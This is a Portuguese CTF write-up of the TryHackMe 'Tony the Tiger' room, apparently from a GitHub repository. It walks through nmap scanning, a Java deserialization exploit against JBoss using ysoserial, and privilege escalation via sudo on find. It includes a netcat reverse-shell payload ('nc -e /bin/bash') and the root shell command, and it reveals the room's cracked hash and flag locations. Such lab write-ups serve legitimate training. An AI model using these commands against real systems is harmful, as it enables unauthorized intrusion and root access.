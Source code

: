 # _**Tony the Tiger CTF**_
![](tiger.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)  

![](scan_nmap2.jpg)  

Obtendo algumas informações, temos:
_Serialização em nível abstrato é o processo de conversão de dados – especificamente "Objetos" em linguagens de Programação Orientada a Objetos (POO), como Java, em formatação de nível inferior conhecida como "fluxo de bytes"_  
_Estes dados podem ser armazenados para uso posterior, como em arquivos, bancos de dados e/ou transmitidos por uma rede_  
_Posteriormente, são convertidos desse "fluxo de bytes" de volta para o "Objeto" de nível superior_  
_Essa conversão final é conhecida como "Desserialização"_  
_Um ataque de "serialização" consiste na injeção e/ou modificação de dados ao longo da fase de "fluxo de bytes"_  
_Quando esses dados são acessados ​​posteriormente pelo aplicativo, códigos maliciosos podem resultar em sérias implicações como ataques de negação de serviço (DoS), vazamento de dados ou ataques muito mais nefastos, como o "rooting"!_  

Realizamos o _download_ do arquivo e tentamos executar para obter _shell_  

![](error.jpg)

Parece que obtemos um erro  
Pesquisando como corrigir, executamos novamente o _exploit_  
Alteramos para **python2** para contornar o erro de _print_ e localização de arquivo
E novamente outro erro  

![](error2.jpg)

Após um tempo pesquisando como contornar, não obtive sucesso e deixei esta sala de lado
Após algum tempo, voltei  

O ysoserial usa uma técnica de Reflection interna (Permit.setAccessible()) para modificar acessibilidade de campos privados  
A partir do Java 9, e principalmente no Java 11 ou mais recente, essa API de reflexão que o ysoserial usa ficou quebrada ou restrita  
Pesquisando mais sobre este erro, temos que é necessário alterar o PATH, pois o Java não está encontrando o campo interno AccessibleObject.override, que o ysoserial tenta alterar por reflection  
Siga estes coamndos abaixo para instalar JDK8  
> ```bash
> cd /opt
> sudo wget https://download.java.net/openjdk/jdk8u44/ri/openjdk-8u44-linux-x64.tar.gz
> sudo tar -xvzf openjdk-8u44-linux-x64.tar.gz
> sudo mv java-se-8u44-ri java-8
> export JAVA_HOME=/opt/java-8
> export PATH=$JAVA_HOME/bin:$PATH
> ```

Após realizar as correções, executamos o _exploit_ com:
> ```bash
> python2 exploit.py [ip_address]:8080 "nc -e /bin/bash [vpn_ip_address] [port]" --ysoserial-path /home/void/jboss/ysoserial.jar
> ```
![](connect_success.jpg)  

![](shell_obt.jpg)  

## _**Escalando privilégios**_
Agora que finalmente conseguimos _shell_, podemos tentar escalar privilégios  
Investigando o principal diretório (/home), temos uma nota do usuário **jboss**  

![](password_update.jpg)

Parece que sua senha foi alterada  
Vamos tentar realizar um login via SSH  
Sucesso!  

![](ssh_login.jpg)

Primeiro, investigamos o arquivo _.bash_history_ devido a uma dica  
Mas está bloqueado  
Outro comando é ```sudo -l``` e temos retorno  

![](sudo_return.jpg)

Execução de _/usr/bin/find_ sem a necessidade de senha!  
Podemos escalar privilégios com o comando abaixo
> ```bash
> sudo find / -exec /bin/bash -p \;
> ```
![](root_obtained.jpg)

Buscando pelas flags através do comando ```grep -r --text "THM{" .```, não obtive nenhum resultado  
Fiz a busca com ```find / -name "root.txt" 2>/dev/null```  
Temos retorno! Está codificado em base64  
Descodificando, parece que temos algo a mais  
Executando ```hashid```, temos MD5  
Indo até [crakcstation](https://crackstation.net/), obtemos: <mark>zxcvbnm123456789</mark>  
Agora para a primeira flag, ao invés de executar o comando ```grep -r --text "THM{" .``` em _root_, executamos em **cmnatic** e temos resposta da primeira flag!  
